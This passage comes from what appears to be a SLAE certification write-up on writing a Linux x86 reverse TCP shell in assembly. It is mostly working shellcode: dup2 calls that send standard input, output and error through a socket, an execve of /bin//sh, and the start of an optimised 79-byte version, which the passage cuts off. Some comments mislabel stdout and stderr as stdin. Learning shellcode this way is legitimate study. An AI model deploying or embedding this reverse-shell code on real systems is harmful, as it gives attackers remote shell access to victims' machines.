 
``Debugging the connection of the socket to a remote address``

![](../Images/04_slae_assignment_2.png)

``Incoming connection received on the listener``

## Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
This functionality is similar to the bind TCP shell, so the code will be the same.
````
; Redirecting STDIN, STDOUT and STDERR to a newly created socket from a client
mov ebx,eax             ;saves the oldfd on ebx
mov ecx,edx             ;sets newfd to 0 for stdin
mov al,0x3f             ;syscall number for sys_dup2
int 0x80                ;executes dup2(oldfd,0) for redirect stdin
inc ecx                 ;sets newfd to 1 for stdout
mov al,0x3f             ;syscall number for sys_dup2
int 0x80                ;executes dup2(oldfd,1) for redirect stdin
inc ecx                 ;sets newfd to 2 for stdout
mov al,0x3f             ;syscall number for sys_dup2
int 0x80                ;executes dup2(oldfd,2) for redirect stdin
````
``Assembly code for redirecting any I/O through the socket``

## Spawning the shell
This functionality is similar to the bind TCP shell, so the code will be the same.
````
; Executing a shell
push edx                ;loads NULL terminator
push long 0x68732f2f    ;loads 'hs//'
push long 0x6e69622f    ;loads 'nib/'
mov ebx,esp             ;saves the pointer to '/bin//sh'
mov ecx,edx             ;loads NULL and edx still contains NULL
mov al,0x0b             ;configures eax for syscall - execve
int 0x80                ;executes execve('//bin/sh',NULL,NULL)
````
``Assembly code for executing a shell``

## Improving the Size 
Right now, shellcode's size is **90** bytes. However, it is possible to optimize this size by grouping similar parts of code in functions that will be called multiple times, and by tricking some parts to save space.

This way, the optimized code size is **79** bytes and the code is the following.

````
; Filename: 	reverse_tcp_shell.nasm
; Author:  	Samuel Dugo
; SLAE-ID:	SLAE-1376
; Size:		79 Bytes
; Purpose: 	Assignment #2 of SLAE certification. This shellcode creates a reverse tcp shell. The IP and Port need to be adjusted using the Python wrapper provided with this code.

global _start			

section .text
_start:

; Creating TCP socket
	xor eax,eax
	cdq
````